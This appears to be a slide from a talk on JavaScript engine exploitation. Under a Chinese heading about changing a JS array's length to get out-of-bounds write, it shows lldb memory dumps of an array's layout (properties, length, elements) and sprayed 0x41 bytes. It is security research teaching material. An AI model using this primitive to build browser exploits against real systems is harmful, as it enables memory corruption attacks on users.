

修改jsArray的length获得越界写入能力

(lldb) x -f p -c 40 0x0000000139900000
0x139900000: 0x000000011e70c000 0x000000011e427000 0x00000000000ffe10 0x0000000100010100
0x139900020: 0x000000011e4005a8 0x0000000000000000 0x0000000000000000 0x0000000000000000
0x139900040: 0x0000000000000000 0x0000000000000000 0x0000000000000000 0x000000011e400000
0x139900060: 0x0000000139900001 0x0001ffc00001ffc0 0xffff000000000155 0xffff000000212121
0x139900080: 0x0000000000000000 0x00000001892ed660 0x000000011e757fc0 0x0000000000000000

--------------------------------------------------------
.. | propY | propX | length | elem0 | elem1 | elem2 | ..
--------------------------------------------------------

(lldb) x -f p -c 40 0x0000000139b00000
0x139b00000: 0x0000015721212121 0x0000000000000000 0x0000000000000000 0x0000000000000000
0x139b00020: 0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000
0x139b00040: 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141
0x139b00060: 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141